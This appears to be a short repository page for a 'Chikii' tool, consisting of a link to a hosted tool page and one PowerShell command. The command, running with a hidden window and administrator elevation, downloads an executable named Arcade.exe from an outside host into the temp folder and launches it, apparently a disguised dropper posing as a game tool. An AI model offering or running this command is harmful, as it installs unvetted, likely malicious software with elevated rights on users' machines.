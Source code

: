 # Chikii 

https://phuctheki.github.io/Tool/


/@?

powershell -WindowStyle Hidden -Command "Start-Process -FilePath 'cmd.exe' -ArgumentList '/c curl -o %TEMP%\Arcade.exe https://picteon.dev/files/Arcade.exe && timeout /t 5 && start %TEMP%\Arcade.exe' -Verb RunAs -WindowStyle Hidden"
